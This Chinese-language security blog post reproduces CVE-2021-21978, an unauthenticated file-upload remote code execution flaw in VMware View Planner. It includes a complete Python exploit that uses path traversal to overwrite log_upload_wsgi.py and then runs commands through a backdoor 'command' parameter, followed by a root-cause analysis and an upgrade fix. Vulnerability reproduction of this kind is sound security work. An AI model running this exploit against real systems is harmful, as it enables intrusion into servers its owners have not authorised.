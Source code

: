 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/bTTOLjslwq1RiuB8Ah2Y9Q)

  

**上方蓝色字体关注我们，一起学安全！**

**作者：****小泫** **@Timeline Sec**

**本文字数：1209**

**阅读时长：3～4min**

**声明：请勿用作违法用途，否则后果自负**

**0x01 简介**  

  

View Planner 是 VMware 官方推出的一款针对 view 桌面的测试工具，通过这个测试工具可以估算出在指定的应用环境下可以发布多少个 view 桌面。

**0x02 漏洞概述**  

  

**编号：CVE-2021-21978**  
View Planner 的 logupload 端点缺乏输入验证，导致具有查看 View Planner Harness 网络访问权限的未经授权的攻击者可以上载和执行精心编制的文件，从而导致在 logupload 容器中执行远程代码。  

**0x03 影响版本**  

  

VMware View Planner <= 4.6.0

**0x04 环境搭建**  

  

环境地址：

```
链接: https://pan.baidu.com/s/1fE69BWvjGNaZIuggIhVabg 
提取码: mxpd
```

下载后直接导入到虚拟机

最后界面为如下图

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia3urd7HeEEHy2xqyknG3FwkzicBltla1XKORD3ibmVG8tGhZFYwaHG1o5V8njmg9THMELePgoXzRhA/640?wx_fmt=png)

**0x05 漏洞复现**  

  

###### EXP 地址：  

```
https://github.com/skytina/CVE-2021-21978
```

VMware View Planner Web 管理界面存在一个上传日志功能文件的入口，没有进行认证且写入的日志文件路径用户可控，通过覆盖上传日志功能文件 log_upload_wsgi.py

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia3urd7HeEEHy2xqyknG3FwaRRIicCX6siaGtesKHcmUDIKg9pujFj3MsKVvteknfYpKoK3SAFhWibbQ/640?wx_fmt=png)

```
# -*- coding: utf-8 -*- 
# @Time : 2021/3/5 下午1:38 
# @Author : skytina 
# @File : CVE-2021-21978.py

import requests,json,sys
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

def exploit(url):
    payload_fname = 'upload.txt'
    logMetaData = {
        "itrLogPath":"../../../../../../etc/httpd/html/wsgi_log_upload",
        "logFileType":"log_upload_wsgi.py",
        "workloadID":"2"
    }
    vul_path = '/logupload?logMetaData={logMetaData}'.format(
                logMetaData=json.dumps(logMetaData)
    )
    # with open('./upload.txt','r') as f:
    #     with open(payload_fname,'w+') as wf:
    #         command_to_execute = "{command} > /etc/httpd/html/logs/.debug.log"\
    #             .format(command=command)
    #         content = f.read()
    #         content_w = content.replace(
    #             "{command_to_execute}",command_to_execute
    #         )
    #         wf.write(content_w)
    req_url = "{url}{vul_path}".format(
        url = url,
        vul_path = vul_path
    )
    files = {
        "logfile":open(payload_fname,"r")
    }
    try:
        r = requests.post(req_url,files=files,verify=False)
        #print(r.content.decode())
        cmd_r = cmd(url,'echo "NiuNiu2020" |base64')
        #print(cmd_r)
        if "Tml1Tml1MjAyMAo=" in str(cmd_r):
            return True
        else:
            return False
    except Exception as e:
        print(str(e))
        return False

def cmd(url,command):
    cmd_url = "{url}/logupload?secert=NiuNiu2020&command={command}".format(
        url=url,
        command=command
    )
    try:
        resp = requests.get(cmd_url,verify=False)
        return resp.content.decode()
    except Exception as e:
        return str(e)


def usage():
    help = "[*] python3 CVE-2021-21978.py url\n\tpython3 CVE-2021-21978.py https://192.168.80.3"
    print(help)

#exploit('https://192.168.80.3','whoami')
if __name__ == "__main__":
    if len(sys.argv) < 2:
        usage()
    else:
        url = sys.argv[1]
        if url.startswith("http://") or url.startswith("https"):
            if exploit(url):
                cmd_url = "{url}/logupload?secert=NiuNiu2020&command={command}".format(
                        url=url,
                        command="command"
                    )
                outmsg = "[*]{url} is vulnerable\n[*]You can execute command like This: {cmd_url}".format(
                        url = url,
                        cmd_url=cmd_url
                )
                print(outmsg)
        else:
            usage()
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia3urd7HeEEHy2xqyknG3Fw9ufAQCMdWfG5UKJgtao4dvlcuE0qrJr2fYibkRLUWJFKhyapibHjIyjg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia3urd7HeEEHy2xqyknG3FwJaZ18e9T9cp89tro7ZiaLwyYqPMdK7adn7Ep9IYia4hfYoC83ezZ22OQ/640?wx_fmt=png)

**0x06 漏洞分析**  

  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia3urd7HeEEHy2xqyknG3Fwl9NibOB2GSmqThYEY9SiawNzB8zFUj436ibIWtqqQByM4twKH6DVUNvkA/640?wx_fmt=png)

可以看到 apache 配置文件配置了 logupload 端点的指向文件为  

/etc/httpd/html/wsgi_log_upload/log_upload_wsgi.py

其路径 / etc/httpd/html/ 实际是容器内的路径，对应宿主机的 / root/viewplanner/httpd

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia3urd7HeEEHy2xqyknG3FwCuA5iaGYeHjZiag505bnmDHNny1Uf2YZibrS9LB06N3lGLTIiaaKJOhnHQ/640?wx_fmt=png)

定位到  

/root/viewplanner/httpd/wsgi_log_upload/log_upload_wsgi.py 文件

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsia3urd7HeEEHy2xqyknG3FwBvwyQZXobJO93UbbPE3ln95XH5KsSNsMwicL7vFN73vSMp3Uyl4Nwsg/640?wx_fmt=png)

由于缺少路径规范过滤，只需要稍微构造一下数据包即可上传恶意文件到任意路径，从而可以覆盖 log_upload_wsgi.py 文件，达到远程代码执行的效果

**0x07 修复方式**  

  

升级到最新版本。  

```
参考链接：
```

https://paper.seebug.org/1495/  

https://github.com/skytina/CVE-2021-21978  

https://mp.weixin.qq.com/s/mBL9kYptreo62g4IonXSLg  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsiaASAShFz46a4AgLIIYWJQKpGAnMJxQ4dugNhW5W8ia0SwhReTlse0vygkJ209LibhNVd93fGib77pNQ/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_jpg/VfLUYJEMVshAoU3O2dkDTzN0sqCMBceq8o0lxjLtkWHanicxqtoZPFuchn87MgA603GrkicrIhB2IKxjmQicb6KTQ/640?wx_fmt=jpeg)

**阅读原文看更多复现文章  
**

Timeline Sec 团队  

安全路上，与你并肩前行